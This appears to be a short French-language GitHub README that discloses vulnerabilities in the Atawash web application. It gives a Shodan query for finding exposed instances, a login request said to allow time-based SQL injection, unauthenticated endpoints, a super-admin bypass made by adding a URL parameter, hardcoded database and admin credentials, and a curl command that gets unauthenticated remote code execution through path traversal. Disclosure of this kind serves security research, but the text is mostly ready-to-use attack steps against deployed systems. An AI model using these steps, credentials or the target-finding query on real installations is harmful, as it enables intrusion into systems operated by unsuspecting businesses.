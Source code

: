 ![autowash-5th-element](https://github.com/Ug0Security/Atawash/assets/28728543/1dd4431c-3469-4514-9398-7ffa71aa71ef)

Je rentre de vacances et j'ai pas de mission..

shodan : http.favicon.hash:-991649870

--- SQLi sur le login mais time based on se fait chier ---


POST /index_connexion_atawa.php?resolution=1920x1080 HTTP/1.1\
Host: xx\
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/116.0\
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8\
Accept-Language: en-GB,en;q=0.5\
Accept-Encoding: gzip, deflate\
Content-Type: application/x-www-form-urlencoded\
Content-Length: 19\
Origin: xx\
Connection: close\
Cookie: PHPSESSID=ww\
Upgrade-Insecure-Requests: 1\

login=test&pwd=test



--- Vlà les manques de controle d'accès sur les fichiers .php dont route sont décritent dans les fichiers js--- 

/choix/choix_version_svg.php?resolution=1920x1080
/config/configubuntu.php?resolution=1920x1080
...

--- Bypass auth super-admin (alors celle la..) ---

/systeme/super_administrateur.php?resolution=1920x1080 (oh lala besoin d'un mdp..)
/systeme/super_administrateur.php?resolution=1920x1080&code=ok (ah non c'est bon)


--- Hardcoded creds ---

/phpmyadminatawa/index.php (MySQL_Atawa:Atawa&13)
/systeme/super_administrateur.php (33310 - hardcoded dans le js..)

--- UnAuth RCE (ayayay vie d'ma mèrrrrrr)---

curl -F "script_name=../../../../../../../../../usr/bin/id" http://url:port/systeme/get_monitor_script.php

